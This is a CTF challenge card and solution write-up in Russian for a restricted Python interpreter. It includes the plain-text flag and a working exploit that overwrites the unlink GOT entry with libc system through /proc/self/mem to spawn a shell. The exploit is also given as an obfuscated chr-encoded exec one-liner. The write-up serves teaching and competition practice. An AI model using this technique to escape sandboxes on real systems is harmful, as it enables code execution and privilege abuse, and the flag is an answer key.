 # Название: Bare Minimal Python
### ВЫДАТЬ УЧАСТНИКАМ sources.zip
### Флаг: **CTF{PyTh0N_1s_s0_1nt3r3st1ng}**
### Описание
Проснувшись утром, я обнаружил на взломанном компьютере интересный бинарник:
САМЫЙ ПЕРЕДОВОЙ ПИТОН ИНТЕРПРЕТАТОР! САМАЯ БЫСТРАЯ СКОРОСТЬ ВЫПОЛНЕНИЯ! САМАЯ НАДЁЖНАЯ ЗАЩИТА (а вот тут следовало бы выяснить поподробнее)
#### Примечание 1: Для получения флага вам нужно запустить бинарник `/give_me_flag`. Реверсить и всячески исследовать его не надо, это простая "читалка" единственного файла с флагом, на котором стоит SUID бит.
#### Примечание 2: В Dockerfile зафиксирована версия базового образа через хеш sha256 (`ubuntu@sha256:...`). Это гарантирует возможность получить такую же среду, как на нашем сервере.
#### Примечание 3: xinetd - служебный файл, необходимый для развертывания на сервере. В нём нет уязвимостей.

### Хинт: got table hooking
### Решение
Был изменён файл posixmodule.c, а также удалены все модули, кроме encodings, т.к. без него Python запускаться отказался.  
Также "заблокированы" (не вносятся в итоговую сборку, т.к. не присутствуют в файле `posix_methods`) все функции из модуля `os`, кроме:
```c
// I EVEN DISABLED THOSE SHADY METHODS
// ONLY BARE MINIMUM REMAINS
static PyMethodDef posix_methods[] = {

    OS_LISTDIR_METHODDEF
    OS_STAT_METHODDEF
    OS_FSPATH_METHODDEF
    OS_MKDIR_METHODDEF
    OS_OPEN_METHODDEF
    OS_CLOSE_METHODDEF
    OS_REPLACE_METHODDEF
    OS_SCANDIR_METHODDEF
    OS_UNLINK_METHODDEF
    OS_RMDIR_METHODDEF
    OS_LSTAT_METHODDEF
    OS_GETCWD_METHODDEF
    {NULL,              NULL}            /* Sentinel */
};
```
Также по всем методам, позволяющим запускать процессы, расставлены return-ы в самом начале с комментариями вида "так просто не получится" (но это не играет никакого значения, т.к. данные методы запустить не удастся из-за отсутствия в итоговой сборке).
```
static PyObject *
os_execve_impl(PyObject *module, path_t *path, PyObject *argv, PyObject *env)
/*[clinic end generated code: output=ff9fa8e4da8bde58 input=626804fa092606d9]*/
{
    return 0xCAFE; // no way bro
```
Негусто, но можно переписать GOT таблицу, тем самым подменив функцию из libc на нужную (python будет "думать", что вызывается напр. ф-ция unlink, а по факту вызовется system)
```python
m=open('/proc/self/maps','r') # to bypass ASLR
map=m.read().splitlines(keepends=False)
m.close()
for st in map:
    if '/usr/lib/x86_64-linux-gnu/libc.so.6' in st: # first libc str
        RES = st
        break

BASE_LIBC = int(RES.split('-')[0], 16) # libc base
ADDR_SYSTEM = 0x7ff997dedd60 - 0x7ff997d9d000 + BASE_LIBC

BASE_GOT = int(map[0].split('-')[0], 16) # SYSTEM LIBC
ADDR_GOT = 0x5578ea82ca50 - 0x5578ea397000 + BASE_GOT

print('got(unlink):', hex(ADDR_GOT), 'system:', hex(ADDR_SYSTEM))

import os
f = open('/proc/self/mem','wb')
f.seek(ADDR_GOT) # seek to chdir
f.write((ADDR_SYSTEM).to_bytes(8,'little')) # mock unlink with system libc func
f.close()
os.unlink("/bin/sh") # fake unlink (now points to system)
```


Однострочник для избежания проблем со вставкой табуляции:
```
exec(''.join([chr(q) for q in [109,61,111,112,101,110,40,39,47,112,114,111,99,47,115,101,108,102,47,109,97,112,115,39,44,39,114,39,41,32,35,32,116,111,32,98,121,112,97,115,115,32,65,83,76,82,10,109,97,112,61,109,46,114,101,97,100,40,41,46,115,112,108,105,116,108,105,110,101,115,40,107,101,101,112,101,110,100,115,61,70,97,108,115,101,41,10,109,46,99,108,111,115,101,40,41,10,102,111,114,32,115,116,32,105,110,32,109,97,112,58,10,32,32,32,32,105,102,32,39,47,117,115,114,47,108,105,98,47,120,56,54,95,54,52,45,108,105,110,117,120,45,103,110,117,47,108,105,98,99,46,115,111,46,54,39,32,105,110,32,115,116,58,32,35,32,102,105,114,115,116,32,108,105,98,99,32,115,116,114,10,32,32,32,32,32,32,32,32,82,69,83,32,61,32,115,116,10,32,32,32,32,32,32,32,32,98,114,101,97,107,10,10,66,65,83,69,95,76,73,66,67,32,61,32,105,110,116,40,82,69,83,46,115,112,108,105,116,40,39,45,39,41,91,48,93,44,32,49,54,41,32,35,32,108,105,98,99,32,98,97,115,101,10,65,68,68,82,95,83,89,83,84,69,77,32,61,32,48,120,55,102,102,57,57,55,100,101,100,100,54,48,32,45,32,48,120,55,102,102,57,57,55,100,57,100,48,48,48,32,43,32,66,65,83,69,95,76,73,66,67,10,10,66,65,83,69,95,71,79,84,32,61,32,105,110,116,40,109,97,112,91,48,93,46,115,112,108,105,116,40,39,45,39,41,91,48,93,44,32,49,54,41,32,35,32,83,89,83,84,69,77,32,76,73,66,67,10,65,68,68,82,95,71,79,84,32,61,32,48,120,53,53,55,56,101,97,56,50,99,97,53,48,32,45,32,48,120,53,53,55,56,101,97,51,57,55,48,48,48,32,43,32,66,65,83,69,95,71,79,84,10,10,112,114,105,110,116,40,39,103,111,116,40,117,110,108,105,110,107,41,58,39,44,32,104,101,120,40,65,68,68,82,95,71,79,84,41,44,32,39,115,121,115,116,101,109,58,39,44,32,104,101,120,40,65,68,68,82,95,83,89,83,84,69,77,41,41,10,10,105,109,112,111,114,116,32,111,115,10,102,32,61,32,111,112,101,110,40,39,47,112,114,111,99,47,115,101,108,102,47,109,101,109,39,44,39,119,98,39,41,10,102,46,115,101,101,107,40,65,68,68,82,95,71,79,84,41,32,35,32,115,101,101,107,32,116,111,32,99,104,100,105,114,10,102,46,119,114,105,116,101,40,40,65,68,68,82,95,83,89,83,84,69,77,41,46,116,111,95,98,121,116,101,115,40,56,44,39,108,105,116,116,108,101,39,41,41,32,35,32,109,111,99,107,32,117,110,108,105,110,107,32,119,105,116,104,32,115,121,115,116,101,109,32,108,105,98,99,32,102,117,110,99,10,102,46,99,108,111,115,101,40,41,10,111,115,46,117,110,108,105,110,107,40,34,47,98,105,110,47,115,104,34,41,32,35,32,102,97,107,101,32,117,110,108,105,110,107,32,40,110,111,119,32,112,111,105,110,116,115,32,116,111,32,115,121,115,116,101,109,41]]))
```

